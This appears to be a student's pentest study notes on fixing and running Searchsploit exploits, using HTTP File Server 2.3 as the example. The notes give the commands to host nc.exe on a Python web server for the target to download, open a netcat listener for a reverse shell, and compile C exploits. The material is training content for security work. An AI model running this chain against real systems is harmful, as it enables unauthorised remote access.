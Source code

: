 
# Fixing & Using Exploits from Searchsploit

Sometimes exploits from Searchsploit don’t work "out-of-the-box".  
We need to carefully **read the exploit code and EDB notes**, fix issues, and prepare the environment to use them effectively.  

---

## Practical Walkthrough: Exploiting HFS (HTTP File Server 2.3)
1. **Identify the web server with Nmap**
   ```bash
   nmap -sV <target-ip>


2. **Search for an exploit**

   ```bash
   searchsploit "HTTP File Server 2.3"
   searchsploit -m 39161     # Copies exploit locally
   ```

3. **Read the exploit code & notes**

   * Exploit file will contain **usage instructions**.
   * Example:

     ```bash
     python exploit.py <target-ip> <port>
     ```
   * If nothing happens, check the **EDB Notes** → sometimes you need extra setup.

---

## Hosting Payload with Netcat Executable

* Some exploits require the target to download a binary (e.g., netcat) from our machine.

Steps:

```bash
# Copy Windows netcat binary to working directory
cp /usr/share/windows-resources/binaries/nc.exe .

# Start a Python HTTP server (to host nc.exe)
python -m SimpleHTTPServer 80
```

---

## Setting up Listener

```bash
# Open a new terminal for listener
nc -nvlp 1234
```

*(Port number must match what is specified inside the exploit script)*

---

## Running the Exploit

```bash
python exploitfile.py <target-ip> <port>
```

* Run again if needed to get a **remote shell (cmd session)**.
* Example command once inside:

```bash
sysinfo
```

---

## Important Notes

* Some exploits are in **C**, so they cannot run directly.

  * Need to **compile first** into a binary:

    ```bash
    gcc exploit.c -o exploit
    ./exploit <args>
    ```
* Always check exploit **requirements**:

  * Listener port
  * Payload hosting (HTTP/FTP server)
  * Target-specific versions

---

## Practical Takeaways (My Notes)

* Don’t blindly run exploits – **read comments inside the script**.
* Many require setting up a payload (like `nc.exe`) hosted on our server.
* Always check **EDB Notes** for extra requirements.
* Learned how to manually set up **Python web server** + **netcat listener** for exploit execution.
* Real-world pentests often need **fixing/modifying exploit code**, not just copy-paste.
* Some exploits need **compilation** before use (C/C++ based ones).

---
